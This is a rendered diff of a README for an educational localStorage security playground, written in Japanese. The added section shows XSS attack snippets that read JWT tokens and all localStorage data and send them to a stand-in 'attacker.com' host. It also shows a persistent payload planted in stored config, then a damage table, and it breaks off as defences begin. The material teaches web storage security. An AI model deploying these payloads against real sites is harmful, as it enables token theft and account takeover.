

Before and after one commit to ipusiron/localstorage-playground, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -38,22 +48,76 @@
 
 ## 📚 学べること
 
-- Web Storage API の基本と構造
+- Web Storage APIの基本と構造
 - クライアントストレージにおけるセキュリティ上の注意点
 - XSSと組み合わさることでの深刻な情報漏洩例
-- `HttpOnly` Cookieとの違い
-- `sessionStorage` の適切な用途と寿命
+- `HttpOnly Cookie`との違い
+- `sessionStorage`の適切な用途と寿命
 
 ---
 
-## 🌐 デモページ
+## 🚨 XSSとlocalStorageの組み合わせ攻撃
 
-👉 [https://ipusiron.github.io/localstorage-playground/](https://ipusiron.github.io/localstorage-playground/)
+### 攻撃シナリオ
 
----
+#### 1. 基本的な攻撃パターン
+```javascript
+// XSS脆弱性を悪用して、localStorage内のトークンを盗む
+<script>
+  // JWTトークンの窃取
+  const token = localStorage.getItem('jwt_token');
+  const userData = localStorage.getItem('user_data');
 
-## 📸 スクリーンショット
+  // 攻撃者のサーバーへ送信
+  fetch('https://attacker.com/steal', {
+    method: 'POST',
+    body: JSON.stringify({ token, userData }),
+  });
+</script>
+```
 
-> ![ダミー](assets/screenshot.png)
->
-> *"ダミー*
+#### 2. 全データ窃取攻撃
+```javascript
+// localStorage内の全データを一括で盗む
+<script>
+  const allData = {};
+  for (let i = 0; i < localStorage.length; i++) {
+    const key = localStorage.key(i);
+    allData[key] = localStorage.getItem(key);
+  }
+
+  // Base64エンコードして送信
+  const img = new Image();
+  img.src = `https://attacker.com/collect?data=${btoa(JSON.stringify(allData))}`;
+</script>
+```
+
+#### 3. 持続的攻撃（Persistent XSS）
+```javascript
+// localStorageにマルウェアを仕込む
+<script>
+  // 悪意のあるコードをlocalStorageに保存
+  localStorage.setItem('app_config', JSON.stringify({
+    apiUrl: 'https://attacker.com/api',
+    tracking: '<img src=x onerror="alert(document.cookie)">'
+  }));
+
+  // アプリケーションがこのデータを信頼して使用すると...
+  // 継続的にXSSが発生する
+</script>
+```
+
+### 実際の被害例
+
+| 攻撃タイプ | 被害内容 | 影響度 |
+|-----------|---------|--------|
+| **認証トークン窃取** | JWTやセッショントークンが盗まれ、なりすましログインが可能に | 🔴 重大 |
+| **個人情報漏洩** | ユーザー設定、プロファイル情報、操作履歴などが流出 | 🔴 重大 |
+| **アカウント乗っ取り** | 認証情報を使って完全にアカウントを制御される | 🔴 重大 |
+| **データ改ざん** | localStorage内のデータを書き換えられ、アプリの動作が異常に | 🟡 中程度 |
+| **マルウェア埋め込み** | 永続的な悪意のあるコードが仕込まれる | 🔴 重大 |
+
+### 防御策
+
+#### ✅ 推奨される対策
+
````
Also changed, not shown: other parts of README.md (+99 -12 lines), CLAUDE.md (added, +48 -0 lines), assets/screenshot.png (added), 9 other files.
